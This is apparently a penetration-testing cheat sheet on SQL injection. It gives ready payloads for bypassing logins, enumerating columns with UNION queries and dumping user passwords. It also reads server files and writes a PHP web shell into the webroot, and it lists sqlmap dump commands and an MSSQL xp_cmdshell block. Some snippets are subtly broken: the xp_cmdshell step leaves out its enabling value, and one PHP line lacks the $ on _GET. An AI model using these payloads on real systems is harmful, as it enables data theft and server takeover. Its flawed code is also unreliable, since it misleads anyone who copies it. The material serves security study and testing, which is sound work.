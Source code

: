 # SQL Injection

> SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve.

## Identifying SQLi

First of all we need to find locations where data might pass through a DB (logins, comments..) and try to use special SQL characters in order to see how the application responds (we look for SQL syntax errors). Example:

#### Using single quote (')
```bash
#Normal query from a login form:
SELECT * FROM Users WHERE login = '$username' and password = '$password';
#Given a login form we can try to inject a single quote in order to make a sql syntax error.
#Modified query that will display syntax error:
SELECT * FROM Users WHERE login = ''' and password = 'mypassword';
```
_____

## Bypass Authentication

The classic SQLi example. By providing the following input in the user input we can bypass the login of a website:

```bash
#Input used + SQL final result (condition is true because 1=1):
user' or 1=1;#
SELECT * FROM users WHERE username = 'user' or 1=1;
```

The above example will display all rows in the users database. However, there are applications that will generate an error since the logic of the program is to retrieve only one. We can bypass this by appending the LIMIT in the end of the query string in order to only display one:

```bash
user' or 1=1 LIMIT 1;#
```

### SQLi into a register form

We can try to create the following user and then log in to see if we get anything interesting:

```bash
username' or 1=1-- -
password: whatever
#Then try to log in with the above username/password.
```

_____

## Enumerating the DB

Take this as an example of a new SQL query:

```SQL
$query = "SELECT id, name, grade FROM reviews WHERE id=". _GET['id'];
```

The URL will be something like the following:

```php
.php?id='
```

We can test the single quote (') again in order to verify if we get a syntax error.

#### Column Enumeration

The "ORDER BY" statement can help us to enumerate how many columns are used in the query string.  If there is at least 'n' columns in the query, the query is valid and the page will render without errors.

```php
<!-- Start changing n to 1 and increment by 1 until there is an error:-->
php?id=1 order by n
```

Once identified how many columns the query is using, we need to know which ones are displayed in the webpage. To achieve this we can use the union statement:

```bash
#In our example there are 3 columns:
php?id=1 union select 1,2,3
#This will display a number (1, 2 and 3) on the columns.
```

#### Extracting Data

Imagine only columns 2 and 3 are being displayed in the website. We can use SQLi to extract data from the database:

```bash
#These examples are made for MariaDB, this could change depending on the software used.
#SQL Version
php?id=1 union all select 1, 2, @@version
#Database user (don't use ;):
php?id=1 union all select 1, 2, user();
#Information schema. It stores information about the database, like table and column names:
php?id=1 union all select 1, 2, table_name from information_schema.tables
#Column names from a specific table (users):
php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
#"Users" table column data:
php?id=1 union all select 1, username, password from users
```

#### Columns with a given name

Select DB, Table that contains a given string:

**Oracle DB:**
```bash
#Change $STRING with: PASSWD, PASSWORD, USERANME...
SELECT OWNER, TABLE_NAME FROM ALL_TAB_COLUMNS WHERE column_name LIKE '%$STRING%';
```
_____

## SQLi to RCE

SQLi can be used to read and write files on the underlying OS (not always).

#### Read file from the server:

```bash
php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```

#### Write file on the server:

```bash
#This can output some errors, but the file should be created
php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

_____

## SQLMap:
```bash
#TARGET should have the vulnerable parameter:
http://something.com/file.php?id=1
#Common uses
sqlmap -u $TARGET --dbs
sqlmap -u $TARGET -D $DATABASE --tables
sqlmap -u $TARGET -D $DATABASE -T $TABLE --columns
sqlmap -u $TARGET -D $DATABASE -T $TABLE -C $COLUMN1,$COLUMN2 --dump
#Take a look at cookies sent in the request, maybe should add --cookie="$COOKIE"
```

Common flags:

| **Flag**   | **Description**                            |
|------------|--------------------------------------------|
|--cookie    | HTTP Cookie header value                   |
|--dbs       | List DBS names                             |
|--tables    | Enumerate DBMS database tables             |
|--columns   | Enumerate DBMS database table columns      |
|-D          | DBMS database to enumerate                 |
|-C          | DBMS database table column(s) to enumerate |
|--dump      | Dump DBMS database table entries           |
|--dbms=mysql| Set backend type (change mysql)            |
|--os-shell  | Execute a remote command shell on target system|


https://afrjcict.net/wp-content/uploads/2019/03/Vol12No1paper6journalformatDIRECT-pagenumber.pdf

_____ 

## MSSQL enable XP_CMDSHELL

```bash
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell';
RECONFIGURE;
EXEC master..xp_cmdshell 'whoami';
```
